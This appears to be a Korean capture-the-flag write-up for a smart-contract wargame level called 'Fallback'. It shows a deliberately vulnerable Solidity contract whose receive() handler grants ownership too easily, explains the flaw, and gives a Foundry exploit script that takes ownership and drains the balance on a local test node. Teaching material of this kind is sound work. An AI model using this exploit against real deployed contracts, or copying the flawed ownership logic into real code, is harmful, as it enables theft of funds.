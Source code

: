 # 지문
아래의 컨트랙트 코드를 주의 깊게 살펴보세요.

이 레벨을 클리어하려면:

* 이 컨트랙트의 **소유권을 획득**해야 합니다.
* 그리고 **잔액을 0으로 줄여야** 합니다.

도움이 될 수 있는 것들:

* ABI와 상호작용할 때 **이더를 전송하는 방법**
* ABI 바깥에서 **이더를 전송하는 방법**
* **wei와 ether 단위 변환** (help() 명령어 참고)
* **폴백(fallback) 메서드**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

# 풀이
`contribute`함수의 코드를 보면 현재 owner의 `contributions`양보다 커야 owner가 될 수 있음.

contract가 생성될 때 극초기의 owner의 contributions는 말도안되게 큼
contribute 함수를 보면 현재 owner의 contributions을 뛰어넘어야만 owner권한을 줌 

근데 같은 contract 내의 `receive` handler를 보면 생각보다 간단한 조건으로 owner가 될 수 있음 
1. contribute함수를 호출해서 소량의 Native Token을 입금
2. target contract로 소량의 Native Token을 입금하면 `require(msg.value > 0 && contributions[msg.sender] > 0);`의 조건을 만족시킬 수 있음


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface IFallback {
    function contribute() external payable;
    function withdraw() external;
    function owner() external view returns (address);
}

contract SolveScript is Script {

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        IFallback fb = IFallback(0x2b961E3959b79326A8e7F64Ef0d2d825707669b5);
        console.log("owner address before poc : %s", fb.owner());
        console.log("target contract balance : %d", address(fb).balance);
        fb.contribute{value:10}();
        (bool success, bytes memory res) = address(fb).call{value:10}("");

        console.log("owner address after poc : %s", fb.owner());
        fb.withdraw();
        console.log("target contract balance : %d", address(fb).balance);
        vm.stopBroadcast();
    }
}
```